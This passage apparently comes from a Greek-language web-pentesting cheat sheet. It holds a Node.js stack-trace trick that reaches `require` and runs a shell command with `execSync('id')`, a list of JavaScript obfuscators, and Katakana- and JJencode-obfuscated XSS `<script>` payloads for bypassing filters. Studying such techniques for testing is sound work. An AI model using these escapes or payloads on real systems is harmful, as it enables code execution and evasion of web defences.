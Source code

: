 ```javascript
} finally {
Error.prepareStackTrace = oldStackTrace
}
}
function trigger() {
const err = new CustomError()
console.log(err.stack[0])
for (const x of err.stack) {
// use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
const fn = x.getFunction()
console.log(String(fn).slice(0, 200))
console.log(fn?.arguments)
console.log('='.repeat(40))
if ((args = fn?.arguments)?.length > 0) {
req = args[1]
console.log(req('child_process').execSync('id').toString())
}
}
}
trigger()
```
### Obfuscation & Advanced Bypass

* **Διαφορετικές παραλλαγές σε μία σελίδα:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
* [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
* [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs)
* [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
* [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
* [http://www.jsfuck.com/](http://www.jsfuck.com)
* Πιο εξελιγμένο JSFuck: [https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
* [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
* [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)
* [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)
```javascript
//Katana
<script>([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()</script>
```

```javascript
//JJencode
<script>$=~[];$={___:++$,$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$:({}+"")[$],$_$:($[$]+"")[$],_$:++$,$_:(!""+"")[$],$__:++$,$_$:++$,$__:({}+"")[$],$_:++$,$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$=($.$+"")[$.__$])+((!$)+"")[$._$]+($.__=$.$_[$.$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$=$.$+(!""+"")[$._$]+$.__+$._+$.$+$.$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$+"\""+$.$_$_+(![]+"")[$._$_]+$.$_+"\\"+$.__$+$.$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```
